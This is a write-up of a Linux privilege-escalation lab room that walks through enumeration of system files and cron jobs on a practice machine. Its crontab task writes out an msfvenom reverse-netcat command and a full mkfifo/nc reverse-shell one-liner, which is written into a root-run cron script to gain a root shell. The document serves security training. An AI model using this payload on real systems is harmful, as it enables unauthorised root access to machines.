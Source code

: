 # Common Linux Privesc Writeup

## [Task 1 - 3]

Follow The Readings Provided

## [Task 4] Enumeration

### 1 SSH into machine with the provided credentials 

username = user3
password = password

- ssh user3@10.10.x.x
![1](https://user-images.githubusercontent.com/69840849/90487228-85318c80-e17d-11ea-97a6-4fae52b8f968.png)

### 2 What is the target's hostname?

- hostname
![1](https://user-images.githubusercontent.com/69840849/90487310-a4c8b500-e17d-11ea-8c13-e124db0080e5.png)
 
### 3 Look at the output of /etc/passwd how many "user[x]" are there on the system?

- cat /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90487951-7f887680-e17e-11ea-9a89-695bbae5f50e.png)

### 4 How many available shells are there on the system?

- cat /etc/shells
![1](https://user-images.githubusercontent.com/69840849/90487873-654e9880-e17e-11ea-930b-d8a76d45b608.png)

### 5 What is the name of the bash script that is set to run every 5 minutes by cron? 

- cat /etc/crontab
[!] You should be able to find the name of the .sh file
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 What critical file has had its permissions changed to allow some users to write to it?

- ls -la /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90488017-9929be00-e17e-11ea-8e7b-2a970579333e.png)

### 7 Enumeration Completed

## [Task 5] Abusing SUID/GUID Files

## [Task 6] Exploiting Writeable /etc/passwd 

## [Task 7] Escaping Vi Editor 

## [Task 8] Exploiting Crontab 

### 1 Switch user to User4 with the provided credentials 

username = user4
password = password

- su user4
![1](https://user-images.githubusercontent.com/69840849/90488480-53b9c080-e17f-11ea-8e7b-a8fcd383bbd4.png)

### 2 Msfvenom
-

### 3 What is the flag to specify a payload in msfvenom?

[!] You can find the answer by using 
- msfvenom -h

### 4 Create a payload using: 

- msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
[!] Reminder, LOCALIP depends on your own machine, I will be using 10.10.0.0 as an example! 
[!] In this situation, we can use port 8888. We can use another port number such as 1234 as long as the netcat listener is also set to 1234
![1](https://user-images.githubusercontent.com/69840849/90489384-8f08bf00-e180-11ea-9dcc-e3927b6bf169.png)

### 5 What directory is the "autoscript.sh" under?

- cat /etc/crontab
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

- echo "mkfifo /tmp/qjqlxog; nc 10.10.0.0 8888 0</tmp/qjqlxog | /bin/sh >/tmp/qjqlxog 2>&1; rm /tmp/qjqlxog" > autoscript.sh


### 7 After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvp 8888" and wait for our shell to land!
![1](https://user-images.githubusercontent.com/69840849/90490101-895fa900-e181-11ea-8166-ca5a4a637815.png)


### 8 After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations! 
[!] You may use the follow to check if it worked
- whoami
![1](https://user-images.githubusercontent.com/69840849/90490473-01c66a00-e182-11ea-88c6-f84af16895ba.png)


## [Task 9] Exploiting PATH Variable 

## [Task 10] Expanding Your Knowledge 

Follow The Readings Provided
